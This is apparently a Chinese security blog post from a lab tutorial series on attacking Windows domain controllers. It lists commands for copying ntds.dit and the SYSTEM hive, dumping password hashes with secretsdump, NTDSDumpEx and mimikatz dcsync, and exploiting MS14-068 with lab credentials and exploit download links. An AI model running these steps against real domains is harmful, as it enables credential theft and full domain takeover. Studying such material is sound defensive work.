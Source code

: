 ```yaml
---
typora-root-url: ../../../static
title: "第六章：域控制器安全"
date: 2021-05-23T09:07:36+08:00
draft: false
categories: ["security"]
---
```


## 利用ntds.dit读取域内哈希
### 提取ntds.dit
主要分为以下几种方式提取：

1. 在域控上使用ntdsutil的IFM提取，支持win2k03、win2k08和win2k12；
2. 在域控上使用vssadmin提取，支持win2k08和win7；
3. 使用Nishang的Copy-VSS.ps提取，支持SAM、SYSTEM和ntds.dit文件的一起提取；
4. 使用diskshadow提取，需要上传到目标机器才能使用，支持win2k08、win2012、win2k16；

***Notice:*** 以下操作均是在powershell中进行，cmd下会失败；

#### 使用ntdsutil提取
直接在域控机器上运行如下命令进行ntds.dit导出到C:\tmp下：

	ntdsutil "ac i ntds" "ifm" "create full c:/tmp" q q

如下图所示：

![ntdsutil创建卷影拷贝][p1]

#### 使用vssadmin提取
在域控中，首先输入如下命令，创建C盘的卷影拷贝：

	vssadmin create shadow /for=C:

如下图所示：

![vssadmin创建C盘的卷影拷贝][p2]

然后在创建的卷影拷贝中将ntds.dit文件复制出来，输入如下命令：

	copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy6\windows\NTDS\ntds.dit C:\ntds.dit

如下图所示：

![从卷影拷贝中复制ntds.dit文件][p3]


最后需要删除快照，输入如下命令：

	vssadmin delete shadows /for=C: /quiet

#### 使用Nishang提取
下载Copy-VSS.ps1脚本后，先将此ps1脚本上传到域控，然后执行如下命令：

	import-module C:\Copy-VSS.ps1;Copy-VSS

如下所示：

![Nishang提取ntds.dit文件][p4]

#### 使用diskshadow提取
- diskshadow是微软签名的，有交互式和非交互式两种模式，使用交互式需要登录RDP；
- 可以通过使用exec来执行一个脚本文件来执行相关命令；
- 在使用diskshadow导出ntds.dit文件时，必须将工作目录切换到C:\WIndows\system32\，否则会发生错误；

首先在域控中创建一个脚本文件cmd.txt，功能是创建ntds.dit的卷影拷贝，如下所示：

	//可能需要去掉注释，防止执行脚本失败
	//设置卷影拷贝
	set context persistent nowriters
	//添加卷
	add volume c: alias someAlias
	//创建快照
	create
	//分配虚拟磁盘盘符
	expose %someAlias% k:
	//将ntds.dit复制到C盘中
	exec "cmd.exe" /c copy k:\Windows\NTDS\ntds.dit C:\target-ndts.dit
	//删除所有快照
	delete shadows all
	//列出系统中的卷影拷贝
	list shadows all
	//重置
	reset
	//退出
	exit

然后切换工作目录到C:\Windows\system32\下，并执行如下命令：

	//同样，需要powershell执行
	powershell diskshadow /s c:\cmd.txt

如下图所示：

![diskshadow拷贝ntds.dit文件][p5]

发现成功导出ntds.dit到C:\target-ndts.dit，如下所示：

![成功导出ntds.dit文件][p6]

### 读取ntds.dit
提取完毕ntds.dit后，就是读取解析它了，但是，单单导出ntds.dit文件是没用的，还需要转储system文件，因为此文件存放了ntds.dit的密钥，前面导出ntds.dit文件时，如果没有导出SYSTEM，那么可以输入如下命令转储：

	reg save hklm\system C:\SYSTEM

这里主要采用两种方式读取ntds.dit文件，如下所示：

1. impacket工具包进行读取；
2. NTDSDumpex.exe进行读取；

#### impacket读取
安装好环境后，将ntds.dit和SYSTEM文件放在本地，输入如下命令进行读取：

	python3 secretsdump.py -system E:\SYSTEM -ntds E:\ntds.dit LOCAL

结果如下所示：

![impacket读取ntds文件][p7]

#### NTDSDumpex读取
下载地址为：[NTDSDumpex下载][l1]，此工具速度很快，如果ntds.dit文件很大，建议内网使用此工具进行解析，使用此工具如果失败，需要先修复ntds.dit数据库：

	esentutl.exe /p /o D:\ntds.dit

然后一把梭哈：

	NTDSDumpEx.exe -d D:\ntds.dit -s D:\SYSTEM -o D:\hash.txt

结果如下所示：

![NTDSDumpEx结果][p8]

## 利用dcsync读取域内哈希
1. 使用mimikatz的dcsync功能，需要域管理员权限运行mimikatz才能读取域控ntds.dit；
2. 使用Invoke-DCSync.ps1获取;

### 使用mimikatz的dcsync
在CS中，直接输入 `dcsync pinger.testlab` ，即可调用mimikatz的dcsync进行哈希导出，如下所示：

![CS调用mimikatz的dcsync][p9]

也可以在域控中运行mimikatz，转储lsass.exe进程，从内存中读取哈希，输入如下命令：

	mimikatz lsadump::lsa /inject

结果如下所示：

![使用mimikatz从内存中读取哈希][p10]

## MS14_068
此漏洞产生的原因是：用户在想Kerberos密钥分发中心（KDC）申请TGT（由票据授权服务产生的身份凭据）时，可以伪造自己的Kerberos票据。如果票据声明自己有域管权限，二KDC在处理票据时未进行签名验证，那么返回给用户的TGT就会使得普通域用户拥有域管权限，从而一举拿下域控；本实验中MS14-068.exe的下载地址为：[ms14-068][l2]

- 影响范围：win2k3、win2k8、win2k8R2、win2012、win2012R2；
- 作用：将域内任意用户提升到域管权限；
- 要求：需要域用户名、SID、密码(没有密码，也可以通过NTLM Hash登录)；
- 可以通过 `wimic useraccount get name,sid,caption` 命令域内用户的SID；

使用MS14-068的工具，在非域控主机上运行如下命令：

	shell MS14-068.exe -u p1n93r@god.org -s S-1-5-21-2952760202-1353902439-2381784089-1111 -d 192.168.52.138 -p 123456789_CG

如下图所示：

![MS14-068][p11]

再未导入这个票据之前，查看域控的C盘，发现提示没权限(注意：一定要使用计算机名，不能用IP)：

![查看域控][p12]

然后用mimikatz导入票据，如下所示：

![mimikatz导入票据][p13]

再次查看域控的C盘，发现能成功查看：

![查看域控][p14]

然后直接使用Psexec直接拿下域控，这里演示使用CS的操作，如下所示：

![CS利用ms14-068拿下域控][p15]

![CS利用ms14-068拿下域控][p16]







[p1]:/media/2021-05-23-1.png
[p2]:/media/2021-05-23-2.png
[p3]:/media/2021-05-23-3.png
[p4]:/media/2021-05-23-4.png
[p5]:/media/2021-05-23-5.png
[p6]:/media/2021-05-23-6.png
[p7]:/media/2021-05-23-7.png
[p8]:/media/2021-05-23-8.png
[p9]:/media/2021-05-23-9.png
[p10]:/media/2021-05-23-10.png
[p11]:/media/2021-05-23-11.png
[p12]:/media/2021-05-23-12.png
[p13]:/media/2021-05-23-13.png
[p14]:/media/2021-05-23-14.png
[p15]:/media/2021-05-23-15.png
[p16]:/media/2021-05-23-16.png






[l1]:https://github.com/zcgonvh/NTDSDumpEx/releases/download/v0.3/NTDSDumpEx.zip
[l2]:https://github.com/p1n93r/WindowsElevation/raw/master/CVE-2014-6324/MS14-068.exe